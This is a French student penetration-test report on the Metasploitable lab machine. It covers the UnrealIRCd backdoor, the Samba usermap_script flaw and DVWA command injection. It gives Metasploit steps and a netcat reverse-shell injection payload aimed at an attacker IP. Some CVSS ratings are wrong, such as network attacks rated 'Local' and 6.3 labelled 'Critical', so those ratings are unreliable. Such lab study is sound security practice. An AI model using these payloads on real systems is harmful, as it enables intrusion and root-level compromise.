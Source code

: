 # Rapport vulnérabilité Metasploitable

#### Grégoire JARRY - 3SI3

# RCE - Unreal IRC Daemon

Une backdoor étant resté secrète pendant plusieurs mois est présente dans cette version du client IRC Unreal. Cette backdoor est déclenché par l'envoi de la chaine "AB" suivi de n'importe quelle commande système. Il existe un module metasploit permettant d'exploiter cette vulnérabilité.

## Démarche de reproduction

- lancer msfconsole

- chercher le module correspondant a l'exploit avec la commande "search unreal irc"

- lancer le module "use exploit/unix/irc/unreal_ircd_3281_backdoor"

- set la variable RHOST sur l'ip de la metasploitable "set RHOST 192.168.247.129"

- entrer la commande "exploit"

- obtention d'un shell root


## score CVSS
| Nom | Niveau |
| --- | --- |
| Attack Vector       | Local  |
| Attack Complexity   | Low      |
| Privileges Required | None      |
| User Interaction    | None     |
| Scope               | Changed  |
| Confidentiality     | High     |
| Integrity           | High     |
| Availability        | High     |
|                    |          |
|**Score CVSS**      |**9.3 (Critical)**|


# RCE - Samba (usermap_script)


La fonctionnalité MS-RPC permet à un attaquant d'executer des commandes à travers des méta-caractères shell lorsqu'une option est activé dans le smb.conf (username map script), et permet un accès aux imprimantes et systèmes de partage de fichier. Il existe également un module metasploit permettant l'exploitation de cette vulnérabilité.

## Démarche de reproduction

- lancer msfconsole

- chercher le module correspondant a l'exploit avec la commande "search samba"

- lancer le module "use exploit exploit/multi/samba/usermap_script"

- set la variable RHOST sur l'ip de la machine metasploitable "set RHOST 192.168.247.129"

- entrer la commande "exploit"

- obtention d'un shell root


## score CVSS
| Nom | Niveau |
| --- | --- |
| Attack Vector       | Local  |
| Attack Complexity   | Low      |
| Privileges Required | None      |
| User Interaction    | None     |
| Scope               | Changed  |
| Confidentiality     | High     |
| Integrity           | High     |
| Availability        | High     |
|                    |          |
|**Score CVSS**      |**9.3 (Critical)**|


# RCE - DVWA command Injection

En exploitant la DVWA (Damn Vulnerale Web Application), il a été possible de créer un reverse shell et ainsi d'avoir un accès à la machine grâce au module d'Injection de Commande.



## Démarche de reproduction

- Se connecter à l'application web DVWA

- naviguer jusqu'à la page de Command Injection 

- fuzzing du champ "Ping", possibilité d'injection de commande shell (à l'aide de | ; &&)

- Création d'un listener en local "nc -l -p 1337"

- injection de la payload permettant la création du reverse shell "127.0.0.1 && nc @ip_attaquant 1337 -e /bin/sh"

- obtention d'un shell avec le user www-data


## score CVSS
| Nom | Niveau |
| --- | --- |
| Attack Vector       | Local  |
| Attack Complexity   | Low      |
| Privileges Required | Low      |
| User Interaction    | None     |
| Scope               | Changed  |
| Confidentiality     | Medium     |
| Integrity           | Medium     |
| Availability        | Medium     |
|                    |          |
|**Score CVSS**      |**6.3 (Critical)**|
